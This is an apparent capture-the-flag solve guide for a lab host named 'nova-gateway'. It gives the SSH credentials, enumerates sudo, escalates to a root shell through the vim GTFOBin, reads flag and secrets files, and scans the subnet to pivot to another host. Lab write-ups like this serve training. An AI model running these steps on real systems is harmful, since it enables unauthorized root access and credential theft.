



# 🔴 Red Team — M3: nova-gateway Solve Guide

**Challenge:** Sudo Misconfiguration — vim GTFOBin Privilege Escalation  
**Technique:** T1548.003 — Abuse Elevation Control Mechanism: Sudo and Sudo Caching  
**Entry Point:** SSH as `devops` / `N0vaTech@24`

**Validated M3 address for this single-host deployment:** `10.0.2.15`

---

## Step 1 — SSH Login

First verify the local address:

```bash
ip -4 addr show
```


Then connect to the validated M3 address. `StrictHostKeyChecking=no` avoids an interactive first-use host-key prompt in this disposable lab:

```bash
ssh -o StrictHostKeyChecking=no devops@10.0.2.15
# Password: N0vaTech@24
```


---

## Step 2 — Enumerate Sudo Permissions

```bash
sudo -l
```



Output:
```
(ALL) NOPASSWD: /usr/bin/vim
```

---

## Step 3 — GTFOBin — vim Privilege Escalation

```bash
sudo vim -c ':!/bin/bash'
```


Inside vim, you'll drop into a root bash shell.  
Alternatively, from within vim: press `:` then type `!/bin/bash` and hit Enter.

---

## Step 4 — Read the Flag

```bash
cat /root/flag3.txt
```


---

## Step 5 — Get Credentials for M4

```bash
cat /root/secrets.txt
```



---

## Step 6 — Pivot to M4

```bash
# Scan the local lab subnet for SSH services
nmap -n -p 22 --open 10.0.2.0/24 --reason -oN /tmp/m3_m4_scan.txt
cat /tmp/m3_m4_scan.txt
```



Only `10.0.2.15` is provisioned with SSH in this local M3 setup, so an M4 pivot was not attempted. When M4 is provisioned separately, replace the placeholder with its verified private address:

```bash
ssh backup@<M4-PRIV-IP>
# Password: Backups3cure
```

---

## Flag Location
`/root/flag3.txt`
